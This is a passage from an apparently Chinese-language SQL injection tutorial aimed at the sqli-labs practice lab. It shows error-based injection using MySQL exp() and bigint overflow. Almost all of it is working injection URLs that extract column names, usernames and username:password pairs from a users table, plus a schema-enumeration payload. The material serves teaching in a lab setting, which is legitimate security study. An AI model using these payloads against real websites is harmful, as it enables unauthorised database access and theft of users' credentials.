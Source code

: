 ### 2.2.3.爆字段

```bash
第一个字段名:
http://sqli-labs.me:8888/Less-5/?id=1' union select (exp(~(select * FROM(SELECT column_name from
information_schema.columns where table_name='users' limit 0,1)a))),2,3--+
```

### 2.2.4.爆数据

```bash
第一列数据:注意：这里只是爆出username列;
http://sqli-labs.me:8888/Less-6/?id=1" union select (exp(~(select * FROM(SELECT username from security.users limit
0,1)a))),2,3 --+
```

![bool26](/images/sqlall/bool26.jpg)

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" union select (exp(~(select * FROM(SELECT username from security.users limit
1,1)a))),2,3 --+
```

### 2.2.5.爆两列数据

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" union select (exp(~(select * FROM(SELECT distinct
concat(0x3a,username,0x3a,password) from security.users limit 0,1)a))),2,3 --+
```

![bool27](/images/sqlall/bool27.jpg)

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" union select (exp(~(select * FROM(SELECT distinct
concat(0x3a,username,0x3a,password) from security.users limit 1,1)a))),2,3 --+
```

## 2.3.bigint溢出

具体产生原理可以阅读《mysql注入之bigint溢出报错注入》其中已经介绍完备;

### 2.3.1.爆库

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" union select (!(select * from (select schema_name from
information_schema.schemata limit 0,1)x) - ~0),2,3--+
```

![bool29](/images/sqlall/bool29.jpg)
